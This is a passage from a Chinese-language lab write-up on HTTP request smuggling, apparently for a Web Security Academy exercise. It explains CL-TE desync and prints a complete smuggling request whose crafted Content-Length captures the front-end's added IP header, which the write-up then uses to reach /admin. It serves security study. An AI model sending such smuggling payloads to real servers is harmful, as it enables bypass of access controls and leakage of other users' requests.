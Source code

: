 最终被删除
![tUMQ7d.png](https://s1.ax1x.com/2020/06/03/tUMQ7d.png)

### (2) CL - TE

CL -TE 比TE-CL 更简单因为不需要控制chunked 长度，因为与上述步骤相同，就不多说了
![tUM736.png](https://s1.ax1x.com/2020/06/03/tUM736.png)


## ② 通过走私 获取下一个请求信息
这里是 CL - TE 型的
题目任务：前端服务器会自动添加一个 X-*-IP 的头部，发往后端，后端识别这个IP头 若为127.0.0.1 则认为管理员。

因此第一步想办法获取 前端服务器添加的头的名称
这里有个文章查询功能，会返回查询的文章名称，因此只要让后面的请求被当作查询的内容即可

![tUXCfP.png](https://s1.ax1x.com/2020/06/03/tUXCfP.png)

```
POST / HTTP/1.1
Host: ac831f9e1e251ebf805182b800b1008c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=nTgpaEvMz10RNBQC1n6HCeZ7qXYzHaQQ
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 125
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 200

search=123

```
走私一个post 请求 ，该请求的Content-Length字段决定了泄露的后一个请求的长度（Content-Length：n 会把往后的n位当成post的数据，直接把后面的包当成了post数据）

![tUXk6S.png](https://s1.ax1x.com/2020/06/03/tUXk6S.png)

用获取的头访问/admin
![tUXFl8.png](https://s1.ax1x.com/2020/06/03/tUXFl8.png)

![tUXiSf.png](https://s1.ax1x.com/2020/06/03/tUXiSf.png)
